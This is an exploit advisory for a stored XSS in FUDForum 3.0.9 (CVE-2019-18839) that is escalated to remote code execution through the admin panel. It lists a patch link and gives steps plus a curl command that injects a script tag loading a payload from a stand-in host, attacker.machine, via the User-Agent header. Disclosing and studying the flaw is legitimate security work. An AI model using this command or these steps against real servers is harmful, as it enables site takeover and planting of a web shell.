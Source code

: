# FUDForum 3.0.9 - Stored XSS / Remote Code Execution [Admin Panel]

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : CVE-2019-18839
- Patch / Fix           : https://sourceforge.net/p/fudforum/code/6321/

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the user-agent request header.
This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
When the admin visits the user information under "User Manager" in the control panel the payload will execute.
This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:

- curl -A '<script src="http://attacker.machine/fud.js"></script>' http://target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
